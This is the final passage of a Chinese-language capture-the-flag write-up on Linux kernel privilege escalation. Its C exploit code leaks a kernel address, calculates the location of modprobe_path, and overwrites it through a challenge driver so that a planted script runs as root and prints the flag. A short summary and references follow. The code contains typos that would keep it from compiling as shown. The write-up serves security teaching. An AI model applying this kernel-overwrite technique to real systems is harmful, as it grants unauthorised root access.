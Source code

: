 ```

    unsigned int vmlinx_addr = *(unsigned int*)(buffer+0x69);
    printf("vmlibux_addr: 0x%lx", vmlinux_addr);
    unsigned long long vmlinux_base = 0xffffffff00000000 + (vmlinux_addr &amp; 0xffff0000);
    unsigned long long modprobe_path  = 0x1448460 + vmlinux_base;
    printf("vmlinux_base : 0x%llx\n",vmlinux_base);
    printf("modprobe_path : 0x%llx\n",modprobe_path);

    memset(buffer, 0x0, 0x100);
    *(unsigned long long *)(buffer+0x100) = modprobe_path;
    printf("buffer_addr: 0x%llx\n %p\n", (size_t)buffer[0x100], &amp;buffer);

    Spell spell_user;
    spell_user.buf =  buffer;
    spell_user.size = 0x108;

    choose(fd, 0);
    cast(fd, spell_user);
    char modname[0x20] =`{` 0 `}`;
    strncpy(modname, "/tmp/getflag.sh", 0x20);
    spell_user.buf = modname;
    cast(fd, spell_user);
    getchar();
    system("/tmp/fl");
    system("cat /tmp/flag");

    return;
`}`
```



## 总结

覆写`modprobe_path`来在`Kernel`中完成提权，其使用条件比较简单，有时候能帮助我们降低解体难度，是一种十分可靠和简洁的思路。当然还有类似的思路，也是值得我们后续深入学习。



## 参考

[Linux Kernel Exploitation Technique: Overwriting modprobe_path](https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/)

[Linux Kernel Exploit 内核漏洞学习(4)-RW Any Memory](https://xz.aliyun.com/t/6067)
